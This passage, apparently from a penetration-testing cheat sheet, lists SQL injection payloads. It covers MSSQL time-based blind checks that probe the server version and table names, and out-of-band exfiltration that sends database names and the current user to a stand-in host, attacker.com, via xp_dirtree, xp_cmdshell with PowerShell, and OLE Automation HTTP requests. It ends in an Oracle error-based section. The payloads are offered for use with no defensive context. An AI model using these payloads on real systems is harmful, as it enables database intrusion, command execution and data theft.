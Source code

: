 - **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.

```
'; IF (1=1) WAITFOR DELAY '0:0:5' -- -
```

- **Checking MSSQL Version:** Causes a 5-second delay if the MSSQL version starts with '8'.

```
'; IF (SUBSTRING(@@version, 1, 1) = '8') WAITFOR DELAY '0:0:5' -- -
```

- **Checking Existence of a Table:** Causes a 5-second delay if the `users` table exists.

```
'; IF EXISTS (SELECT * FROM sysobjects WHERE xtype='U' AND name='users') WAITFOR DELAY '0:0:5' -- -
```

- **Extracting Data from a Column:** Causes a 5-second delay if the first character of the `users` table name is 'u'.

```
'; IF (SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1)='u') WAITFOR DELAY '0:0:5' -- -
```

### Out-of-Band SQLi

- **DNS Exfiltration Using XP_DIRTREE:** Causes the MSSQL server to attempt to list a directory on an attacker-controlled SMB server, leaking database names via DNS queries.

```
'; EXEC master..xp_dirtree '\\attacker.com\' + (SELECT name FROM master..sysdatabases) -- -
```

- **HTTP Exfiltration Using XP_CMD_SHELL:** Uses the `xp_cmdshell` stored procedure to execute a PowerShell command that sends database names to the attacker's server via HTTP.

```
'; EXEC xp_cmdshell 'powershell Invoke-WebRequest -Uri http://attacker.com/?data=' + (SELECT name FROM master..sysdatabases) -- -
```

- **Data Exfiltration Using OLE Automation Procedures:** Uses OLE Automation Procedures to make an HTTP GET request to an attacker-controlled server, exfiltrating the current database user.

```
'; DECLARE @obj INT;  EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @obj OUT;  EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://attacker.com/?user='+ (SELECT SYSTEM_USER), false;  EXEC sp_OAMethod @obj, 'send'; -- -
```

## [[P1521 Oracle SQL NET]]

### Error-Based SQLi

- **Division by Zero:** Causes a division by zero error.

```
' AND 1/(SELECT COUNT(*) FROM all_tables)=0 -- -
```
